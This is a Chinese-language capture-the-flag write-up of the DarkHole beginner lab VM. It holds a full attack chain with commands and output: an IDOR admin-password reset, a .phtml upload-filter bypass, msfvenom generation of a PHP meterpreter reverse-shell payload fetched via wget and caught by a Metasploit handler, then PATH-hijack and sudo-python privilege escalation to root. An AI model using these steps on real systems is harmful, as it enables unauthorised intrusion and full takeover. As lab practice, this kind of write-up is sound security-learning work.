










靶机描述:
```
Description
Difficulty: Easy

It's a box for beginners, but not easy, Good Luck

Hint: Don't waste your time For Brute-Force

```

参考：
[wp](https://blog.csdn.net/weixin_71914594/article/details/133844608?spm=1001.2014.3001.5502)

搭好环境 这个machine不需要改 因为本来就写的vmx-16 改成vmx-17会报签名校验错误
但这个开机好慢... 毕竟3G
导入后慢慢等 这个机子不用配网卡可以直接用

靶机:



信息收集:
nmap扫靶机ip

```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -sn 192.168.136.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-15 17:36 CST
Nmap scan report for 192.168.136.1
Host is up (0.0032s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.136.2
Host is up (0.00025s latency).
MAC Address: 00:50:56:EE:A2:E5 (VMware)
Nmap scan report for 192.168.136.151   <=here!!!
Host is up (0.0011s latency).
MAC Address: 00:0C:29:F6:C5:F7 (VMware)
Nmap scan report for 192.168.136.254
Host is up (0.00046s latency).
MAC Address: 00:50:56:FC:2B:D8 (VMware)
Nmap scan report for 192.168.136.146
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 28.05 seconds

```

`nmap -A`
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.151  
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-15 17:44 CST
Nmap scan report for 192.168.136.151
Host is up (0.00070s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e4:50:d9:50:5d:91:30:50:e9:b5:7d:ca:b0:51:db:74 (RSA)
|   256 73:0c:76:86:60:63:06:00:21:c2:36:20:3b:99:c1:f7 (ECDSA)
|_  256 54:53:4c:3f:4f:3a:26:f6:02:aa:9a:24:ea:1b:92:8c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: DarkHole
MAC Address: 00:0C:29:F6:C5:F7 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms 192.168.136.151

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.62 seconds

```


还是开放了ssh和http 目录扫不出什么信息

给了login 还能注册
先注册进去看看
uuuqqq
114514

进去发现可以change password


可能有二次注入
但尝试单双引号都没用
update用户名无法改为admin

尝试url的`?id=xxx` sqlmap跑了跑 手工测了测应该不是sql注入

尝试bp抓包伪造id但应该也是有cookie伪造不了...
弱口令爆了爆应该也爆不出来
gg...
...没辙了...

然而看了眼WP 发现bp抓包可以改admin的?
再试试




... 也就是请求的url的id不能改 但是修改密码对应的id是没有检查的...

admin
123456


登陆发现文件上传
```
Sorry , Allow Ex : jpg,png,gif 
```
然而发现我不会绕...

空字符截断 .jpg.php 试了好多
蚁剑要连接的话必须是php后缀... 
又看wp 可以传phtml???
不是白名单检测的吗???

还是说实际是黑名单检测 (确实尝试 1.php%00 发现可以上传 只是不能解析...)

那就好办了 用phtml上传图片也会解析为hex而不是图片本身


蚁剑连接

要进一步信息收集
看到upload的源码 确实是黑名单检测
```php
if(isset($_FILES['fileToUpload'])) {
    $fileName = $_FILES['fileToUpload']['name'];
    $exit =  pathinfo($fileName,PATHINFO_EXTENSION);
    if($exit !="php" && $exit !="html"){
        move_uploaded_file($_FILES['fileToUpload']['tmp_name'],"upload/" . $_FILES['fileToUpload']['name']);
        $allow = "Upload File Successful:"

        ?>
        <?php $Source = "<a href='upload/$fileName'>File</a>"; ?>
<?php
    }else{
        $allow = "Sorry , Allow Ex : jpg,png,gif";
    }
}
```


但什么都收集不到... 权限也提不了...
能在darkhole.sql找到初始的admin密码
```sql
INSERT INTO `users` (`id`, `username`, `email`, `password`) VALUES
(1, 'admin', 'admin@admin.com', 'EWIOEJIOejw@(#I(@djslKJ');
```

虽说也没啥用吧 尝试以这个密码登陆ssh也不行...

看wp学到了新的提权方法
其实在收集信息的时候也发现了John用户


而Linux与用户相关的信息(除了密码)都在 /etc/passwd


所以我们可以先切换为john用户

```
(www-data:/var/www/html/upload) $ cd /home/john
(www-data:/home/john) $ ls -l
total 32
-rwxrwx--- 1 john john     1 Jul 17  2021 file.py
-rwxrwx--- 1 john john     8 Jul 17  2021 password
-rwsr-xr-x 1 root root 16784 Jul 17  2021 toto
-rw-rw---- 1 john john    24 Jul 17  2021 user.txt
```

发现只有toto这个ELF有权限
base64 dump下来 ida看


**提权到john**
又学习到了新姿势
```
echo "/bin/bash" > /tmp/id
chmod 777 /tmp/id
export PATH=/tmp:$PATH
./toto
```

但我蚁剑上面行不通
跟wp试试msf反弹shell

步骤:
- kali `msfvenom`利用`php/meterpreter/reverse_tcp`生成shell.php

php写的比较严谨 鲁棒性较强 但也没怎么加免杀

- python起http服务 蚁剑upload目录 wget下载shell.php
- kali `msfdb`开监听 设置好exploit的option
  - `msfdb run`
  - `use exploit/multi/handler`
  - `show options`
  - `set LHOST 192.168.136.146`
  - `set payload php/meterpreter/reverse_tcp`
  - `exploit`
- 网页访问 `http://192.168.136.151/upload/shell.php` kali监听就能上线了
- msf起shell后python开一个交互式终端 `python3 -c 'import pty;pty.spawn("/bin/bash")'`



```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.136.146 lpor=4444 -o shell.php

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php
                                                                                                                                                                                                                    
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
192.168.136.151 - - [15/Apr/2024 21:00:36] "GET /shell.php HTTP/1.0" 200 -
192.168.136.151 - - [15/Apr/2024 21:01:07] "GET /shell.php HTTP/1.0" 200 -
192.168.136.151 - - [15/Apr/2024 21:01:36] "GET /shell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                    
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# 


┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# msfdb run                                                                           
[+] Starting database
[+] Creating database user 'msf'
为新角色输入的口令: 
再输入一遍: 
[+] Creating databases 'msf'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating databases 'msf_test'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
                                                  
Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.1.4-dev                           ]
+ -- --=[ 2162 exploits - 1147 auxiliary - 367 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Sending stage (39282 bytes) to 192.168.136.151
[*] Meterpreter session 1 opened (192.168.136.146:4444 -> 192.168.136.151:41248) at 2024-04-15 21:04:02 +0800

meterpreter > shell
Process 4635 created.
Channel 0 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@darkhole:/var/www/html/upload$ 

```

然后再走上面提权到john的操作
(我的理解是 system("id") 会默认在/tmp/id先找? 如果我们自己写一个/tmp/id并chmod的话 就会执行我们的命令即 /bin/bash)
```
www-data@darkhole:/home/john$ ls -l
ls -l
total 32
-rwxrwx--- 1 john john     1 Jul 17  2021 file.py
-rwxrwx--- 1 john john     8 Jul 17  2021 password
-rwsr-xr-x 1 root root 16784 Jul 17  2021 toto
-rw-rw---- 1 john john    24 Jul 17  2021 user.txt
www-data@darkhole:/home/john$ ./toto
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
www-data@darkhole:/home/john$ echo "/bin/bash" > /tmp/id
echo "/bin/bash" > /tmp/id
www-data@darkhole:/home/john$ chmod 777 /tmp/id
chmod 777 /tmp/id
www-data@darkhole:/home/john$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@darkhole:/home/john$ ./toto
./toto
john@darkhole:/home/john$ 

```

已经有权限读了
```
john@darkhole:/home/john$ cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}
john@darkhole:/home/john$ cat password
cat password
root123
```

**flag**: DarkHole{You_Can_DO_It}

**提权到root**
当然可以进一步提权到root

Q: 为什么要ssh?
A: 其实发现不用ssh msf的shell也能打... 但能ssh还是ssh吧(本地终端更好看233)
```
john@darkhole:/home/john$ echo "import os;os.system('/bin/bash');" > file.py
echo "import os;os.system('/bin/bash');" > file.py
john@darkhole:/home/john$ chmod 777 file.py
chmod 777 file.py
john@darkhole:/home/john$ sudo python3 file.py
sudo python3 file.py
Sorry, user john is not allowed to execute '/usr/bin/python3 file.py' as root on darkhole.
john@darkhole:/home/john$ sudo /usr/bin/python3 /home/john/file.py
sudo /usr/bin/python3 /home/john/file.py
root@darkhole:/home/john# 

```

su尝试root123密码发现不对 前面还有ssh 可以试试

darkhole可以登陆
但应该还是得john用户名登陆
用sudo -l查看
```
john@darkhole:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py

```

所以可以用 `sudo /usr/bin/python3 /home/john/file.py` 来提权 (注意一定要严格写 不能 `sudo python3 file.py`)
我们对file.py有写权限 写入 `/bin/bash`


成功提权到root!

---
---

过瘾!

提权的方法要总结！
kali msf的使用也要总结!
文件上传那里也着实没想到是假的白名单... 也抽空总结一下绕waf的方法

冲!